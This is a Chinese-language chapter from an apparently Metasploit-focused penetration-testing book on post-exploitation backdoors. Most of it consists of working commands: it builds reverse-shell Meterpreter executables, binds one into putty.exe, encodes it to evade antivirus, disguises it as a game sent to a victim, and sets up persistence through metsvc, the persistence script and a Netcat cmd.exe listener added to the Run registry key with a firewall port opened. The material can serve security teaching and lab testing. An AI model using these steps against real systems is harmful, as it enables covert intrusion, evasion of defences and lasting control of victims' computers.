# 第十章：后期利用-后门

在上一章中，我们专注于清理我们的足迹，以避免被发现和抓住。本章将涵盖使用后门技术来保持对被攻击系统的访问。后门在维持对系统的持久访问和根据攻击者的需求使用系统方面发挥着重要作用，而无需一次又一次地对其进行攻击。我们将讨论如何规避恶意可执行文件被杀毒软件扫描器检测到并妥协用户机器。此外，我们还将讨论如何使用编码器使这些可执行文件无法被检测到。

# 什么是后门？

后门是一种通过绕过正常的安全机制来获取对计算机的访问权限的手段。随着技术的发展，它现在配备了远程管理实用程序，允许攻击者通过互联网远程控制系统。这可以是绕过身份验证、获取机密信息和非法访问计算机系统的形式。趋势表明，这些更多地集中在下载/上传文件、远程截屏、运行键盘记录器、收集系统信息和侵犯用户隐私方面。

举个例子，考虑一个客户端-服务器网络通信，被攻击的机器充当服务器，客户端是我们的攻击者。一旦在受损的用户上启动服务器应用程序，它就开始监听传入的连接。因此，客户端可以轻松连接到特定端口并开始通信。一旦通信开始，可能会跟随其他恶意活动，如前面所述。我们在服务器和客户端之间建立了一种反向连接。服务器连接到单个客户端，客户端可以向连接的多个服务器发送单个命令。

## 有效载荷工具

在本章中，我们可能会遇到几种有效载荷制作工具。它们在这里简要描述：

+   `msfpayload`：这是 Metasploit 的命令行实例，用于生成和输出 Metasploit 中所有各种类型的 shell 代码。这主要用于生成 Metasploit 中未找到的利用或在最终确定模块之前测试不同类型的 shell 代码和选项。它是不同选项和变量的绝妙混合。

+   `msfencode`：这是 Metasploit 工具包中用于利用开发的另一个很好的工具。它的主要用途是对`msfpayload`生成的 shell 代码进行编码。这是为了适应目标以便正常运行。它可能涉及将 shell 代码转换为纯字母数字，并摆脱坏字符并对 64 位目标进行编码。它可以用于多次编码 shell 代码；以各种格式输出，如 C、Perl 和 Ruby；甚至将其合并到现有的可执行文件中。

+   `msfvenom`：从技术上讲，`msfvenom`是`msfpayload`和`msfencode`的组合。`msfvenom`的优势包括一些标准化的命令行选项、一个单一的工具和增加的速度。

# 创建一个 EXE 后门

在本节中，我们将学习如何使用内置有效载荷创建一个恶意后门。但在开始之前，我们将检查 Metasploit 框架中这些有效载荷的位置（有效载荷目录）。因此，我们转到根目录，然后转到`/opt/metasploit/msf3/modules`。在这个目录下，我们找到**有效载荷**目录。


我们还可以通过使用一个简单的命令从 msfconsole 中查看所有这些有效载荷。只需输入`show payloads`，它就会列出所有有效载荷。


为了使用有效载荷创建后门，Metasploit 中有三种可用工具，`msfpayload`、`msfencode`和`msfvenom`。这三个工具位于`/opt/metasploit/msf3`。



现在我们将看到如何使用`msfpayload`创建后门。打开终端并输入路径到`msfpayload`目录。在我们的情况下，它是`cd /opt/metasploit/msf3`。


现在我们在目录中，我们可以使用`msfpayload`来创建一个后门；也就是说，`msfpayload`的位置。输入`./msfpayload -h`将显示`msfpayload`的所有可用命令。



我们看到有一个`<payload>`选项。这意味着我们首先必须从有效载荷列表中选择一个有效载荷，这已经由`show payloads`命令向您显示。所以我们现在选择一个有效载荷。


例如，在这里，我们选择`windows/x64/meterpreter/reverse_tcp`有效载荷来创建我们的后门。

现在输入`./msfpayload windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.105 X> root/Desktop/virus.exe`。

要使用的语法如下：

```
PAYLOAD NAME - windows/x64/meterpreter/reverse_tcp LHOST(your local IP address) - 192.168.0.105 X> (Giving path directory where to create virus.exe backdoor)- root/Desktop/virus.exe

```



输入命令后，我们看到我们的桌面上有一个`virus.exe`后门。就是这样；我们完成了。使用`msfpayload`创建后门是如此简单。如果我们不想创建自己的 EXE 文件，只想与另一个 EXE 文件绑定（可能是软件安装文件），我们可以使用`msfpayload`和`msfvenom`的混合。

现在我们将把我们的后门 EXE 文件与`putty.exe`文件绑定。非常小心地输入以下命令：

```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.105 R | msfencode -e x86/shikata_ga_nai -c 6 -t exe -x/root/Desktop/putty.exe -o /root/Desktop/virusputty.exe

```

要使用的语法如下：

```
PAYLOAD NAME - windows/x64/meterpreter/reverse_tcp LHOST(your local IP address) - 192.168.0.105 ENCODER NAME - x86/shikata_ga_nai c(The number of times to encode the data) - 6 t(The format to display the encoded buffer) - exe x (Specify an alternate win32 executable template)- root/Desktop/virus.exe o(The output file) - root/Desktop/virusputty.exe

```

我们可以在以下截图中看到我们的病毒文件`virus.exe`已经与`putty.exe`绑定，给我们`virusputty.exe`，它可以在我们的桌面上使用。


到目前为止，在本章中，我们已经学会了使用`msfpayload`和`msfvenom`创建后门。下一步是使用任何社会工程技术将这个后门 EXE 程序发送给受害者。

## 创建一个完全不可检测的后门

我们在前一节中创建的后门效率不高，缺乏检测逃避机制。问题在于后门很容易被杀毒程序检测到。因此，在本节中，我们的主要任务将是制作一个不可检测的后门并绕过杀毒程序。

我们刚刚将我们的`virus.exe`文件发送给受害者，将其更改为`game.exe`的名称，以便他/她下载。


下载`game.exe`文件后，它被 AVG 杀毒软件检测为病毒。



我们的后门很容易被杀毒程序检测到，我们必须使其不可检测。让我们开始这个过程。我们将使用`msfencode`和编码器来做到这一点。首先，选择一个用于编码后门 EXE 文件的良好编码器。输入`show encoders`；这将显示 Metasploit 中可用编码器的列表。


我们现在可以看到编码器列表。我们将选择`x86 shikata_ga_nai`，因为它的排名是**excellent**。


现在输入以下命令：

```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.105 R | msfencode -e x86/shikata_ga_nai -c 1 -t exe -x/root/Desktop/game.exe -o /root/Desktop/supergame.exe

```

要使用的语法如下：

```
PAYLOAD NAME - windows/meterpreter/reverse_tcp LHOST(your local IP address) - 192.168.0.105 ENCODER NAME - x86/shikata_ga_nai c(The number of times to encode the data) - 1 t(The format to display the encoded buffer) - exe x (Specify an alternate win32 executable template) - root/Desktop/game.exe o(The output file) - root/Desktop/supergame.exe

```

我们可以在以下截图中看到我们的`supergame.exe`文件已经创建。



再次，我们以链接的形式将`supergame.exe`文件发送给受害者，并让他/她将`supergame.exe`文件下载到他/她的桌面上。



如果受害者使用杀毒程序扫描`supergame.exe`文件，他/她会发现它是一个干净的文件。



如果你不喜欢在终端中输入这么多命令，还有另一种简单的方法可以借助脚本创建一个不可检测的后门。这个脚本叫做 Vanish。在处理脚本之前，我们必须在 BackTrack（BackTrack 是一个基于 Debian GNU/Linux 发行版的发行版，旨在进行数字取证和渗透测试）中安装一些 Vanish 脚本所需的软件包。因此，键入`apt-get install mingw32-runtime mingw-w64 mingw gcc-mingw32 mingw32-binutils`。安装所有必要的软件包需要几分钟的时间。


成功安装软件包后，我们只需通过键入`wget http://samsclass.info/120/proj/vanish.sh`从互联网上下载脚本；`vanish.sh`文件保存在桌面上。


之后，键入`ll van*`。


现在通过键入`chmod a+x vanish.sh`来更改脚本的权限。


之后，我们必须将位于 Metasploit 目录中的 Vanish 脚本移动到`pentest/exploits/framework2`。


我们的 Vanish 脚本现在已经准备好使用了，所以让我们进入该目录并键入`sh vanish.sh`。


执行脚本后，脚本将要求我们要在哪个网络接口上使用它。键入`eth0`。


提供设备接口后，它会要求提供一些更多的选项，比如它将监听的反向连接的端口号（`4444`），一个随机种子号（我们输入为`2278`），以及对载荷进行编码的次数（我们指定为`2`）。在提供了这些细节之后，它将在`seclabs`目录中创建一个`backdoor.exe`文件。`seclabs`目录位于与 Vanish 脚本相同的目录中。脚本还将自动在 msfconsole 中启动载荷处理程序。现在我们只需要将`backdoor.exe`文件发送给受害者，并等待其执行。


到目前为止，我们已经学习了创建后门的不同方法和技巧。现在我们将进入下一部分 - 在执行后门后处理来自受害者计算机的反向连接。将载荷发送给受害者后，打开 msfconsole 并键入`use exploit/multi/handler`。


然后只需在此处理程序中设置所有载荷细节并将其发送给受害者。例如，键入`set PAYLOAD <your payload name>`；在这里，我们使用`set PAYLOAD windows/meterpreter/reverse_tcp`。


之后，设置您为后门 EXE 文件提供的本地主机地址。例如，键入`set LHOST <IP 地址>`；在这里，我们使用`set LHOST 192.168.0.103`。


这是利用利用技术进行攻击的最后一种类型，我们将看到我们的反向处理程序连接已准备好接收连接。


执行后门后，反向连接将成功建立，并且在攻击者的系统上将生成一个 Meterpreter 会话。


让我们通过检查受害者的系统属性来获取有关受害者系统的信息。


现在是时候学习一些不同的东西了。在本节中，我们将学习在获得 Meterpreter 会话后在受害者系统中安装后门。

Metasploit 中还有另一个后门，称为`metsvc`。我们将首先检查可以与此后门一起使用的命令，因此输入`run metsvc -h`，它将向我们显示这些命令。



我们可以看到`-A`选项将自动在受害者的机器上启动后门。因此输入`run metsvc -A`。


我们可以看到第二个 Meterpreter 会话从受害者的系统建立，并且恶意后门`metsvc-server.exe`文件已成功上传到受害者的系统并执行。



受害者的任务管理器显示我们的后门服务正在运行。这些恶意文件被上传到 Windows 的`Temp`目录下的`C:\WINDOWS\Temp\CFcREntszFKx`。


如果要从受害者的系统中删除该后门服务，请输入`run metsvc -r`。



我们可以看到`metsvc`服务已成功删除，但受害者的`Temp`目录中的 EXE 文件不会被删除。

## Metasploit 持久后门

在这部分，我们将学习使用持久后门。这是一个在目标系统中安装后门服务的 Meterpreter 脚本。因此输入`run persistence -h`以显示可以与持久后门一起使用的所有命令。



在了解可用命令之后，输入`run persistence -A -L C:\\ -S -X -p 445 -i 10 -r 192.168.0.103`。

此语法中的命令解释如下：

+   `A`：自动启动 payload 处理程序

+   `L`：在目标主机上放置 payload 的位置

+   `S`：在系统启动时自动启动代理

+   `p`：用于监听反向连接的端口号

+   `i`：新连接的时间间隔

+   `r`：目标机器的 IP 地址

现在我们运行我们的持久后门脚本，如下截图所示：



我们看到从受害者的系统建立了一个 Meterpreter 会话。让我们验证一下 payload 是否被放在了受害者的`C:`驱动器中。



如果要删除该 payload，我们必须输入`resource`和在运行`persistence`命令时创建的文件的路径。我们可以在上一步中找到路径。输入`resource /root/.msf4/logs/persistence/PWNED-02526E037_20130513.2452/PWNED-02526E037_20130513.2452.rc`。


我们将向您展示另一个著名的持久后门 Netcat。我们将通过 Meterpreter 会话将 Netcat 上传到受害者的系统上。就像在以下截图中一样，我们将在桌面上看到`nc.exe`文件；那个文件就是 Netcat。现在我们将把这个`nc.exe`文件上传到受害者的`system32`文件夹中。因此输入`upload /root/Desktop/nc.exe C:\\windows\\system32`。


我们可以看到我们的 Netcat 程序已成功上传到受害者的系统。现在我们必须做的一件重要的事情是将 Netcat 添加到受害者的启动过程中，并将其绑定到端口 445。为了能够做到这一点，我们必须调整受害者的注册表设置。输入`run reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run`。


运行此命令枚举了启动注册表键，并且我们发现启动过程中有三个服务正在运行。我们可以在前面的屏幕截图中看到这三个值。现在我们将我们的 Netcat 服务设置在这个注册表值中。输入`reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 445 -e cmd.exe'`。


我们的 Netcat 服务附加到注册表，所以让我们验证它是否正常运行。输入`reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc`。


接下来我们要做的重要事情是允许 Netcat 服务通过受害者的防火墙的 445 端口。输入`netsh firewall add portopening TCP 445 "Service Firewall" ENABLE ALL`。


执行上述命令后，我们看到我们的端口似乎是打开的。因此，让我们从防火墙设置中验证端口是否打开。输入`netsh firewall show portopening`。


我们可以清楚地看到在前面的屏幕截图中，`445 TCP`端口在防火墙中是启用的。现在重新启动受害者的系统，并使用 Netcat 连接受害者的系统。打开终端，输入`nc -v <targetIP > <netcat port no.>`；例如，这里我们使用`nc -v 192.168.0.107 445`。这样做将使您重新连接到受害者的计算机。


# 摘要

在本章中，我们介绍了各种技术，以便在受害者系统上部署可执行的后门。我们学会了将可执行文件绑定到合法程序，并让受害者执行它们，以便我们获得反向连接。我们还讨论了 Metasploit kitty 中不同类型的有效载荷以及它们在建立与后门 EXE 的连接中的工作方式。我们还致力于使可执行文件无法被杀毒软件检测到，因此用户无法区分正常文件和恶意文件。通过这些技术，我们学会了如何在系统被利用后保持对系统的持久访问。在下一章中，我们将讨论后期利用的最后阶段，即枢纽和网络嗅探。

# 参考资料

以下是一些有用的参考资料，可以进一步阐明本章涉及的一些主题：

+   [`jameslovecomputers.wordpress.com/2012/12/10/metasploit-how-to-backdoor-an-exe-file-with-msfpayload/`](http://jameslovecomputers.wordpress.com/2012/12/10/%E2%80%A8metasploit-how-to-backdoor-an-exe-file-with-msfpayload/)

+   [`pentestlab.wordpress.com/2012/04/16/creating-an-undetectable-backdoor/`](http://pentestlab.wordpress.com/2012/04/16/creating-an-undetectable-backdoor/)

+   [`www.securitylabs.in/2011/12/easy-bypass-av-and-firewall.html`](http://www.securitylabs.in/2011/12/easy-bypass-av-and-firewall.html)

+   [`www.offensive-security.com/metasploit-unleashed/Interacting_With_Metsvc`](http://www.offensive-security.com/metasploit-unleashed/Interacting_With_Metsvc)

+   [`www.offensive-security.com/metasploit-unleashed/Netcat_Backdoor`](http://www.offensive-security.com/metasploit-unleashed/%E2%80%A8Netcat_Backdoor)

+   [`en.wikipedia.org/wiki/Backdoor_(computing)`](http://en.wikipedia.org/wiki/Backdoor_(computing))

+   [`www.f-secure.com/v-descs/backdoor.shtml`](http://www.f-secure.com/v-descs/backdoor.shtml)

+   [`feky.bizhat.com/tuts/backdoor.htm`](http://feky.bizhat.com/tuts/backdoor.htm)

+   [`www.offensive-security.com/metasploit-unleashed/Msfpayload`](http://www.offensive-security.com/metasploit-unleashed/Msfpayload)

+   [`www.offensive-security.com/metasploit-unleashed/Msfencode`](http://www.offensive-security.com/metasploit-unleashed/Msfencode)

+   [`www.offensive-security.com/metasploit-unleashed/Msfvenom`](http://www.offensive-security.com/metasploit-unleashed/Msfvenom)
